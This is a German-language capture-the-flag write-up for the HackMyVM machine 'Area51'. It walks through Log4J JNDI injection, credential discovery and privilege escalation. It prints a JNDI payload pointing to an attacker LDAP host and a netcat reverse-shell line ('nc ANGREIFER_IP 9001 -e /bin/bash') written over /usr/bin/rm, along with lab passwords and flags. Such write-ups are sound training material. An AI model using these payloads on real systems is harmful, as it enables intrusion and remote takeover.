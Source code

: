 # Area51 - HackMyVM Writeup

![Area51 Icon](Area51.png)

Dies ist ein Writeup für die HackMyVM-Maschine "Area51", erstellt von DarkSpirit. Die Maschine ist als "Medium" eingestuft und erfordert die Ausnutzung einer bekannten Schwachstelle (Log4J) für den initialen Zugriff sowie die Nutzung schwacher Berechtigungen für die Privilegieneskalation.

**VM Link:** [Area51 auf HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Area51)
**Autor der VM:** DarkSpirit
**Original Writeup:** [Ben C. - Cyber Security Reports](https://alientec1908.github.io/Area51_HackMyVM_Medium/)
**Datum des Berichts:** 20. Juni 2025

---

**Disclaimer:**

Dieser Writeup dient ausschließlich zu Bildungszwecken und dokumentiert Techniken, die in einer kontrollierten Testumgebung (HackTheBox/HackMyVM) angewendet wurden. Die Anwendung dieser Techniken auf Systeme, für die keine ausdrückliche Genehmigung vorliegt, ist illegal und ethisch nicht vertretbar. Der Autor und der Ersteller dieses README übernehmen keine Verantwortung für jeglichen Missbrauch der hier beschriebenen Informationen.

---

## Zusammenfassung

Die Box "Area51" erforderte zunächst eine gründliche Enumeration der offenen Dienste, insbesondere der Webserver auf den Ports 80 und 8080. Ein entscheidender Hinweis wurde in einer Textdatei auf Port 80 gefunden, der auf eine Log4J-Schwachstelle in einer Java-Anwendung auf Port 8080 hindeutete. Die erfolgreiche Ausnutzung dieser Schwachstelle führte zu einer initialen Root-Shell.

Von der initialen Root-Shell aus wurden Systeminformationen gesammelt, wobei versteckte Dateien durchsucht und ein Passwort für den Benutzer `roger` gefunden wurde. Dies ermöglichte den Zugang via SSH.

Als Benutzer `roger` wurde das System weiter erkundet. Dabei wurde ein weiterer Benutzer (`kang`) und eine kritische Schwachstelle in den Dateiberechtigungen (`/etc/pam.d/kang`) gefunden, die ein Passwort für `kang` enthielt und roger Schreibrechte gab. Nach dem Wechsel zum Benutzer `kang` wurde eine globale Schreibberechtigung auf `/usr/bin/rm` ausgenutzt, um diesen durch eine Reverse Shell zu ersetzen und so die endgültige Root-Privilegieneskalation zu erreichen.

## Technische Details

*   **Betriebssystem:** Debian (basierend auf Nmap-Erkennung und SSH-Banner)
*   **Offene Ports:**
    *   `22/tcp`: SSH (OpenSSH 8.4p1 Debian 5)
    *   `80/tcp`: HTTP (Apache httpd 2.4.51)
    *   `8080/tcp`: HTTP (Nagios NSCA / vermutete Java/Spring-Anwendung)

## Enumeration

1.  **ARP-Scan:** Identifizierung der Ziel-IP im Netzwerk.
2.  **Nmap Scan:** Ermittlung offener Ports und Dienste. Ports 22, 80 und 8080 waren offen.
3.  **Web Enumeration (Port 80):**
    *   `curl`: Überprüfung der Header.
    *   `nikto`: Fund von fehlenden Sicherheits-Headern, ETag-Informationen und veralteter Apache-Version.
    *   `gobuster`: Entdeckung der Verzeichnisse `/video`, `/radar`, `/moon` und der Datei `/note.txt`.
    *   `/note.txt` enthielt den kritischen Hinweis: "Alert! We have a vulnerability in our java application... Notify the programming department to check Log4J."
    *   Die Webseite auf Port 80 zeigte ein FBI-Login-Formular, das jedoch client-seitig via JavaScript (`script.js`) validierte und keine serverseitige Authentifizierung durchführte.
4.  **Web Enumeration (Port 8080):**
    *   `curl`: Zeigt "Whitelabel Error Page" bei direktem Zugriff.
    *   `nikto`: Fehlende Sicherheits-Header, erlaubte HTTP-Methoden wie `PUT` und `DELETE`, was auf potenzielle Risiken hindeutet.
    *   `gobuster`: Findet das `/error`-Verzeichnis.
    *   Basierend auf `note.txt` und dem Dienst (Nagios NSCA, oft in Java-Umgebungen) wurde Log4J als potenzielle Schwachstelle auf Port 8080 vermutet.

## Ausnutzung (Initialer Zugriff - Root)

1.  **Log4J Schwachstelle:** Die Vermutung bestätigte sich. Die Java-Anwendung auf Port 8080 war anfällig für Log4J JNDI Injection (CVE-2021-44228).
2.  **Payload Vorbereitung:** Eine Reverse Shell Java-Klasse (`Exploit.java`) wurde erstellt und kompiliert. Tools wie `marshalsec` oder `log4j-shell-poc` wurden vorbereitet, um einen bösartigen LDAP/HTTP-Server aufzusetzen, der die kompilierte Klasse ausliefert.
3.  **Exploit Trigger:** Durch das Senden eines JNDI-Strings, z.B. `${jndi:ldap://ANGREIFER_IP:1389/a}`, in einem anfälligen Header wie `X-Api-Version` an Port 8080 wurde die Schwachstelle getriggert. Die Anwendung führte den JNDI-Lookup aus, verband sich mit dem bösartigen LDAP-Server, der auf den HTTP-Server des Angreifers verlinkte, woraufhin die `Exploit.class` geladen und die Reverse Shell ausgeführt wurde.
4.  **Ergebnis:** Eine Reverse Shell wurde auf dem Lauschport des Angreifers (Port 4444 im Beispiel) als Benutzer `root` empfangen.

## Post-Exploitation & Lateral Movement (Root -> roger -> kang)

1.  **Erste Root-Shell:** Nach Erhalt der Root-Shell wurde das Dateisystem erkundet. Die Suche nach versteckten Dateien mittels `find / -type f -name ".*" 2>/dev/null` enthüllte die Datei `/var/tmp/.roger`.
2.  **Passwortfund:** Der Inhalt von `/var/tmp/.roger` war `b3st4l13n`, was wie ein Passwort aussah.
3.  **Zugang als Benutzer `roger`:** Basierend auf dem Dateinamen und dem gefundenen Passwort wurde versucht, sich via SSH als Benutzer `roger` anzumelden. Dies war erfolgreich.
4.  **Erkundung als `roger`:** Als `roger` wurde weiter nach Schwachstellen gesucht. `sudo -l` zeigte, dass `roger` keine sudo-Berechtigungen hatte. Die Suche nach global schreibbaren Dateien (`find / -type f -perm -o=w 2>/dev/null`) enthüllte unter anderem `/usr/bin/rm`.
5.  **Fund von Benutzer `kang`:** Die Suche nach dem String "kang" im `/etc`-Verzeichnis mittels `grep -r "kang" /etc` offenbarte die Existenz des Benutzers `kang` und die Datei `/etc/pam.d/kang`.
6.  **Schwachstelle in `/etc/pam.d/kang`:** Die Berechtigungen für `/etc/pam.d/kang` (`-rwxrwx--- 1 roger roger`) zeigten, dass der Benutzer `roger` Schreib- und Ausführungsrechte für diese Datei besaß.
7.  **Passwort für `kang`:** Der Inhalt von `/etc/pam.d/kang` war `k4ng1sd4b3st`.
8.  **Wechsel zu Benutzer `kang`:** Mit dem gefundenen Passwort wurde erfolgreich mittels `su kang` zum Benutzer `kang` gewechselt.
9.  **Erkundung als `kang`:** Als `kang` wurde erneut `sudo -l` geprüft, was ebenfalls keine sudo-Berechtigungen zeigte.

## Privilegieneskalation (kang -> Root)

1.  **Ausnutzung schreibbarer `/usr/bin/rm`:** Als Benutzer `kang`, der indirekt (über die globale Schreibberechtigung, gefunden als `roger`) auf `/usr/bin/rm` schreiben konnte, wurde die Datei `/usr/bin/rm` durch einen Reverse Shell Payload ersetzt (`echo 'nc ANGREIFER_IP 9001 -e /bin/bash' > /usr/bin/rm`).
2.  **Trigger:** Es ist anzunehmen, dass ein Prozess oder ein Nutzer mit Root-Rechten anschließend den Befehl `rm` ausführte, was dazu führte, dass stattdessen der Reverse Shell Payload ausgeführt wurde.
3.  **Ergebnis:** Eine zweite Root-Shell wurde auf dem Lauschport des Angreifers (Port 9001 im Beispiel) empfangen.

## Flags

*   **user.txt:** `ee11cbb19052e40b07aac0ca060c23ee` (Gefunden unter `/home/roger/user.txt`)
*   **root.txt:** `63a9f0ea7bb98050796b649e85481845` (Gefunden unter `/root/root.txt`)

---

Dieses Writeup wurde erstellt von [Ben C. - Cyber Security Reports](https://alientec1908.github.io/Area51_HackMyVM_Medium/).
